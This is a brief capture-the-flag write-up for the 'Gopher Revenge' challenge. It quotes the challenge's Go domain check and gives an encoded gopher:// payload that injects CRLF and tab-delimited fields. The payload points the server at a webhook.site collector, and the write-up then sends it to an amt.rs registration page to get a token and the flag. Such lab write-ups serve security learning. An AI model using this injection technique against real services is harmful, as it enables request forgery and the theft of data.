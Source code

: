 ```yaml
---
title: 'Gopher Revenge'
date: '2023-09-23'
---
```


- Similar as go-gopher chall, except we can use our webhook site, because this chall checks URL: 

```go
	rawURL, _ := strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(rawURL)

	u, err := url.Parse(rawURL)

	etldpo, err2 := publicsuffix.EffectiveTLDPlusOne(u.Host)
	if err != nil || err2 != nil || etldpo != "amt.rs" {
		return "Invalid url"
	}
```
- Previous payload: 
```w!
gopher://amt.rs:31290/1/submit/%250as%250ds%250d%250A0%2509URL:https:%252F%252Fwebhook.site%252F9170beae-82e8-408d-bc36-b111a41a22c2%2509anything%250980%2509 gopher://amt.rs:31290/1/submit/%250as%250ds%250d%250A0%2509URL:https:%252F%252Fwebhook.site%252F9170beae-82e8-408d-bc36-b111a41a22c2%2509anything%250980%2509 
```

![](https://hackmd.io/_uploads/Hkn9PyPc2.png)

- Now, we just need to change the url to domain that contains amt.rs in public suffix.
- We can use this task, to have a register url, change url to https://cps.amt.rs/register.php
![](https://hackmd.io/_uploads/Bke1dyDqh.png)
- And we have a token, login and get flag. 


> **amateursCTF{ye5._ h1s_1s_g0pher_h3ll}**
